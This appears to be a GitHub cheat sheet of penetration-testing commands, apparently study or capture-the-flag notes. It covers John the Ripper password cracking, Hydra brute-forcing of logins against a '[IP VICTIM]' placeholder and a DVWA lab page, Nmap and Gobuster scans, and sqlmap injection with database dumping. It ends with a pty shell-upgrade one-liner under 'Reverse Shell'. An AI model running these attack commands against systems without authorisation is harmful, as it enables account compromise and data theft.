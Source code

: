 # <p align=center>John The Ripper</p>

### Bruteforce File
```
john --wordlist=[WORDLIST] [FILE]
```
### Show Format List
```
john --list=formats
```
### Bruteforce Hash
```
john --formats=[HASH] [FILE]
```
### PDF2John Online Tool
```
https://www.onlinehashcrack.com/tools-pdf-hash-extractor.php
```
### ZIP2John Command
```
zip2john [FILE]
```

# <p align=center>Hydra</p>

### Bruteforce Password
```
hydra -V -l [USERNAME] -P [WORDLIST] [IP VICTIM] [PROTOCOL]
```
### Bruteforce Via HTTP
```
hydra -V -l [USERNAME] -P [WORDLIST] [IP VICTIM] http-[REQUEST METHOD]-form "[PATH]:[REQUEST BODY]:[INCORRECT ALERT]"
```
Example :
```
hydra -V -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-get-form "/DVWA/vulnerabilities/brute:username=admin&password=^PASS^:Username and/or password incorrect."
```

# <p align=center>NMAP</p>

### Aggresive & Verbose Scan
```
nmap -v -A [IP]  
```

# <p align=center>Gobuster</p>

### Directory Enumeration
```
gobuster dir -u [URL] -w [WORDLIST] 
```

# <p align=center>Sqlmap</p>

### SQL Injection from File
```
sqlmap -r [FILE LOCATION] --dbs
```
### SQL DUMP
```
sqlmap -r [FILE LOCATION] --dump
```
Example :
```
sqlmap -r Belajar/learn/sqlmap/latihan.txt --dbs
```

# <p align=center>Reverse</p>

### Tools

- strings
- ltrace
- r2 -d
- gdb

### Reverse Shell
Python Spawning Bash
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
Export Shell
```
export SHELL=bash
export TERM=xterm-256color
```
